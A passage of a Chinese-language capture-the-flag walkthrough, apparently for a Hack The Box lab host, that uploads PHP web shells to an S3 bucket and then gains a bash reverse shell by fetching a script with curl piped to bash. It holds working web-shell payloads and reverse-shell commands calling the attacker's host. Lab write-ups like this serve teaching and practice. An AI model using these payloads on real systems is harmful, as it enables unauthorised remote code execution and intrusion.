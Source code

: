 #### 3. 上传 Web Shell

创建 `shell.php`：

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

上传至存储桶：

```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

访问 `http://thetoppers.htb/shell.php?cmd=id`，确认 RCE：

过程发现此shell不能正确返回信息,尝试其他shell:

`<!--<?php exec($_GET["cmd"], $output); var_dump($output); ?>-->` shell2.php

`<!--<?php passthru($_GET["cmd"]); ?>-->`shell3.php

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

### 步骤三：获取反向 Shell

#### 1. 准备反向 Shell 脚本

创建 `shell.sh`：

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.32/1337 0>&1
```

#### 2. 启动本地 Web 服务器

```bash
python3 -m http.server 8000
```

#### 3. 启动 Netcat 监听

```bash
nc -nvlp 1337
```

#### 4. 触发反向 Shell

访问以下 URL（URL编码后）：

```
http://thetoppers.htb/shell.php?cmd=curl%2010.10.14.32:8000/shell.sh|bash
```

成功获取 Shell：
